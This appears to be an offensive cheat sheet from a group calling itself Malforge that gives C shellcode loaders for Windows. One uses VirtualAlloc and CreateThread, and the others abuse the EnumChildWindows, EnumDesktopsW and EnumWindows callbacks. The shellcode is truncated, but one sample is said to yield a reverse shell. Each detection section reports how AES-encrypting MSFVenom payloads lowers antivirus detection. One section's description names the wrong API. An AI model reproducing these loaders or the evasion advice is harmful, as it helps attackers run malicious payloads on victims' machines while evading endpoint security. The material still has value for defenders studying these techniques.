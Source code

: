 # Code Execution via Callbacks CheatSheet

## Introduction

This cheat sheet outlines various techniques to execute shellcode on a Windows machine using callback-based methods. It also highlights which techniques are submitted to VirusTotal.

![image](https://github.com/user-attachments/assets/30de2d79-9ae0-4786-a077-f0c44d4b9a06)

---

## Basic Shellcode Execution

Although not based on callbacks, this is the most straightforward method to execute shellcode.

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Payload to launch calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  // truncated for brevity...
};
unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void *my_payload_mem;
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  my_payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);
  rv = VirtualProtect(my_payload_mem, my_payload_len, PAGE_EXECUTE_READ, &oldprotect);

  if (rv != 0) {
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }

  return 0;
}
```

### Proof of Concept
Executing this EXE yields a reverse shell.

![image](https://github.com/user-attachments/assets/f2b7048b-6a62-496a-bc2e-148161405016)

![image](https://github.com/user-attachments/assets/3084cfec-116d-46db-8572-d8db7e7a1bc5)


### Detection
This approach is easily flagged by AV engines.

![image](https://github.com/user-attachments/assets/88a3957a-29f6-45c5-9a92-ccc465d96f33)

---

## EnumChildWindows Execution

The `EnumChildWindows` API is typically used to list child windows of a given parent window. Malware can abuse this to enumerate open applications or inject shellcode.

### Code Sample

```c
#include <windows.h>
#include <stdio.h>

int main() {
    char shellcode[] = "..."; // calc.exe shellcode

    HANDLE hAlloc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(hAlloc, shellcode, sizeof(shellcode));
    EnumChildWindows((HWND) NULL, (WNDENUMPROC) hAlloc, NULL);
}
```

### Proof of Concept
Executing the binary successfully launches the Calculator.

![image](https://github.com/user-attachments/assets/d1d3a5f5-cca9-4585-bc91-56c50480aaa2)


### Detection

![image](https://github.com/user-attachments/assets/530a7e26-dcd8-46ab-b6cf-d058232ed48f)

Using AES-encrypted shellcode dramatically lowers AV detection rates.

![image](https://github.com/user-attachments/assets/f58a8cf6-a074-4ab2-a293-5bddd52db409)

---

## EnumDesktopsW Execution

The `EnumDesktopsW` API enumerates all desktops in the current window station and is sometimes used by attackers to execute shellcode.

### Code Sample

```c
#include <windows.h>
#include <stdio.h>
#include "wingdi.h"

int main() {
    char shellcode[] = "..."; // calc.exe shellcode

    HANDLE hAlloc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(hAlloc, shellcode, sizeof(shellcode));
    EnumDesktopsW(GetProcessWindowStation(), (DESKTOPENUMPROCW) hAlloc, NULL);
    printf("%d", GetLastError());
    VirtualFree(hAlloc, 0, MEM_RELEASE);
}
```

### Proof of Concept
The code successfully spawns Calculator.

![image](https://github.com/user-attachments/assets/299fa077-cd6a-4252-9105-75e6699c5842)

### Detection
Plain MSFVenom shellcode is flagged by 12 AVs; 

![image](https://github.com/user-attachments/assets/c4418c58-9131-4d23-80c8-5691db43f169)

AES-encrypted versions often evade detection.

![image](https://github.com/user-attachments/assets/2e4de228-ab3a-4928-b9b9-ad48f568f6df)

---

## EnumWindows Execution

EnumChildWindows is a Windows API function that is used to enumerate all child windows of a specified parent window. In malware, it can be used to gather information about the environment in which it is running. For example, malware might use EnumChildWindows to enumerate all open windows and their associated process IDs to identify the applications that are running and to detect any security-related applications, such as antivirus software. Additionally, the malware may use the information gathered through EnumChildWindows to carry out malicious actions, such as injecting code into other processes, stealing data, or modifying system settings.

### Code Sample

```c
#include <windows.h>
#include <stdio.h>

int main() {
    char shellcode[] = "..."; // calc.exe shellcode

    HANDLE hAlloc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(hAlloc, shellcode, sizeof(shellcode));
    EnumWindows((WNDENUMPROC) hAlloc, NULL);
}
```

### Proof of Concept
This method also successfully launches Calculator.

![image](https://github.com/user-attachments/assets/3f0e443e-8ca6-49ca-b697-29c06e5e74ae)


### Detection
Standard shellcode triggers alerts from 15 AVs. 

![image](https://github.com/user-attachments/assets/c4d2d8b9-9fbd-485f-8bfc-a2ded8e34641)

AES encryption reduces this to detection by just two engines

![image](https://github.com/user-attachments/assets/78f00b87-9560-4097-adac-84dac1ca288b)

---

## Conclusion

 I hope you found this article useful — stay tuned for more content!
— **Malforge Group**

---
